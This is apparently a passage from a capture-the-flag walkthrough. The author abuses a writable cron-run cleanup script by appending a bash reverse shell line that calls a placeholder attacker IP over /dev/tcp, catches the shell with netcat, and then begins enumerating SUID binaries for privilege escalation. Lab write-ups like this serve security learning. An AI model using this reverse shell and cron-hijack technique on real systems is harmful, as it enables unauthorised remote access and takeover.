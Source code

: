 Download everything so you can study and inspect it.

Starting with clean sh, that is interesting, it seem like a cronjob running this script to remove file from tmp directory.

We can get reverse shell from here.

clean sh:

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

Let's exploit it ! Add a line into clean sh.

```sh
bash -i >& /dev/tcp/YOU_IP_HERE/9999 0>&1
```

Then fire up netcat and wait for the connection.

![reverse-shell-success](reverse-shell-success.png)

Well, you have your user txt here.

Time to get PrivEsc and Root it !

Let check on suid.

```sh
namelessone@anonymous:~$ find /usr/bin/ -perm -u=s -type f 2>/dev/null
find /usr/bin/ -perm -u=s -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```
